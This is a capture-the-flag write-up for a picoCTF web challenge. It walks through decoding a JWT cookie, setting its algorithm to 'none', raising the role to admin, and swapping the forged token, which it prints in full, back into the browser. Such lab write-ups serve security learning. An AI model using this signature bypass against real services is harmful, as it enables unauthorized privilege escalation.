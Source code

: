 # URL
https://play.picoctf.org/practice/challenge/236?page=9&solved=1

# Challenge
Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?
You can login as test with the password Test123! to get started.

# Solution
* The hint "Use the web browser tools to check out the JWT cookie" was a giveaway that I should log in and inspect the cookie
* The fact that it was JWT means it's probably prone to some attack on that cookie
* Pasting the cookie into a JWT decoder "https://www.jwt.io/" results in
```
{
  "alg": "HS256",
  "typ": "JWT"
}
```
and 

```
{
  "auth": 1754367579962,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1754367580
}
```
* In some older or poorly written JWT libraries, if you change the algorithm in the JWT header to "alg": "none", the server will skip signature verification entirely
* Changed "alg: HS256" to "alg: none" and changed "role:user" to "role: admin"
* encoded the new input in jwt.io: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhdXRoIjoxNzU0MzY3NTc5OTYyLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzguMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc1NDM2NzU4MH0.
* Chrome web dev -> Application -> Cookies -> replace old token with new malicious token
* Boom! Flag pops up on screen!

